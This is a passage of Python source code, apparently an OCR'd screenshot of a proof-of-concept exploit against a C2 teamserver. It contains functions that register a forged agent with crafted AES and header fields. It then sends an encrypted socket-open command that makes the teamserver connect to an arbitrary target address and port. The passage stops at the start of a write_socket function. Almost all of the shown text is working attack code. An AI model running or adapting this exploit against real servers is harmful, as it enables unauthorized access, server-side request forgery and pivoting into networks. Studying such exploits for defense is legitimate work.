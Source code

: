 ```
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)
 
    data =  b"\xab" * 100
 
    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data
 
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
 
    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")
 
 
def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"
 
    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"
 
    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"
 
 
    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)
 
    forward_port = int_to_bytes(target_port)
 
    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)
 
    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)
 
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data
 
 
    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")
 
 
def write_socket(socket_id, data):
```